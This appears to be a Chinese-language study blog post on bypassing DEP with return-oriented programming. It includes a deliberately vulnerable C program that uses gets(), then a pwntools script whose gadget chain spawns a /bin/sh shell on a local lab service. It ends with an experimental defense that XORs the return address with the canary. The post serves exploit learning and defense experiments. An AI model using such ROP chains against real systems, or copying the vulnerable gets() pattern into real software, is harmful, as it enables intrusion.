 #Buffer Overflow With DEP

我設計了一個有buffer overflow漏洞的程式，開啟保護**DEP（NX）**的保護
為了方便實作DEP的bypass，ASLR調整為1，不開啟canary跟PIE的保護

code：

```
//ROP.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	int buf[50];
	gets(buf);
	return;
}

int main(){
	bof();
	return 0;
}
```

DEP不允許區段的寫入跟執行權限同時開啟
所以stack上佈好shellcode也無法執行
但有人想到一種bypass的方式

---

###ROP
想要我的財寶嗎？想要的話可以全部給你，去找吧！我把所有財寶都放在那裡XD

>找到程式中，可執行的片段（gadget），組合成shellcode
>gadgets的最後一個指令是ret的話
>就可以持續串聯下一個gadget

利用ROPgadget這套工具可以快速建好gadgets，只是要想辦法組好shellcode而已
攻擊程式：

```
#ROP.py
from pwn import *

r = remote('0.0.0.0', 4000)	#qira

binsh1 = 0x6e69622f	#'/bin'
binsh2 = 0x68732f	#'/sh'

padding = 'a' * 204 + p32(binsh1) + p32(binsh2)	#overflow & set /bin/sh at ebp-4 & ebp

#gadgets
pop_a = 0x080b8fa6	#pop eax ; ret
pop_dcb = 0x0806f9f0	#pop edx ; pop ecx ; pop ebx ; ret
syscal = 0x0806d5a5	#int 0x80

payload = padding + p32(pop_a) + p32(0xb) + p32(pop_dcb) + p32(0) + p32(0) + p32(0xf6fff354) + p32(syscal)

r.sendline(payload)

r.interactive()

r.close()
```

>某天我想到一個娛樂性有點高的防禦方法
>可以擋下ROP這類的攻擊，但是目前仍有一點缺陷...

===

#Defense ROP

其實，我一開始只是想讓他跳不到shellcode而已
為了完成這樣的目的，在程式流程剛進入callee時
我把gs段的0x14(就是32bits下的canary)跟ebp+4(return address)做XOR
然後放回去ebp+4
程式要返回caller之前，再取canary跟ebp+4做XOR，還原真正的return address
**如果ebp+4已經被竄改過**，他還是會和canary做XOR
這樣就跳不到attacker想要的位址了，感覺起來還不錯

code:（asm inline模擬版本）

```
//Defense.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
		"mov %ecx, 4(%ebp)\n\t"
		"xor %ecx, %ecx");
	int buf[50];
	gets(buf);
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
                "mov %ecx, 4(%ebp)\n\t"
                "xor %ecx, %ecx");
	return;
}

int main(){
	bof();
	return 0;
}
```

缺陷是stack被洩漏的話，attacker可以先調整好第一個gadget

**娛樂性**在於：我真的不知道他會跳去哪裡
如果他XOR做完的return address是合法的，我完全無法預測會發生什麼事XD
目前當機次數：1

暫時先寫這樣，再慢慢擴充好了
